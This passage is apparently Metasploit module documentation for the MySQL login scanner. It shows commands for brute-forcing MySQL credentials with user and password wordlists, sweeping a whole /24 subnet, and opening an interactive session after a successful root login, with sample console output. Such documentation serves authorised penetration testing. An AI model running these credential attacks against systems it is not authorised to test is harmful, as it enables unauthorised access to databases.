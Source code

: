 Using an alternative port:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Brute-force host with known user and password list:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

### Obtaining an Interactive Session on the Target

The CreateSession option in `auxiliary/scanner/mysql/msql_login` allows you to obtain an interactive session
for the MySQL client you're connecting to. The run command with CreateSession
set to true should give you an interactive session:

```msf
msf6 > use scanner/mysql/mysql_login 
msf6 auxiliary(scanner/mysql/mysql_login) > run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
```

You can interact with your new session using `sessions -i -1` or `sessions <session id>`.
You can also use `help` to get more information about how to use your session.

```msf
msf6 auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
```
